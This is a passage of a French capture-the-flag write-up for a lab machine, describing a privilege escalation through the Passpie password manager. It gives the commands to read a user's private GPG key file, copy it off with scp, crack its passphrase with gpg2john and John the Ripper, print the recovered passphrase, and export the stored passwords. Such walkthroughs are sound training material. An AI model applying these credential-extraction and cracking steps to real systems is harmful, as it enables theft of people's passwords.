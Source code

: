 **Découverte :** Répertoire `.passpie` présent dans le home de jnelson.

<div class="bg-cyan-100 dark:bg-cyan-900/20 border-l-4 border-cyan-500 p-4 my-4 rounded-r-lg">
    <p class="text-cyan-800 dark:text-cyan-200">
        <i class="fas fa-info-circle mr-2 text-cyan-500"></i>
        <strong>Qu'est-ce que Passpie ?</strong> Gestionnaire de mots de passe en ligne de commande utilisant GPG pour le chiffrement.
    </p>
</div>

### Analyse de la configuration

```bash
ls -la ~/.passpie
cat ~/.passpie/.keys
```

Présence de clés GPG privées et publiques protégées par une passphrase.


## 🔓 Phase 8 — Escalade de privilèges via Passpie

### Extraction et crackage de la clé GPG

**Transfert des clés sur la machine locale :**

```bash
scp jnelson@10.10.11.186:/home/jnelson/.passpie/.keys ./keys
```

**Extraction du hash avec gpg2john :**

```bash
gpg2john keys > keys.hash
```

**Crackage avec John the Ripper :**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt keys.hash --format=gpg
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-key mr-2 text-green-500"></i>
        Passphrase trouvée : blink182
    </p>
</div>

### Export des mots de passe Passpie

```bash
passpie export ~/password.db
# Passphrase: blink182

cat ~/password.db
```

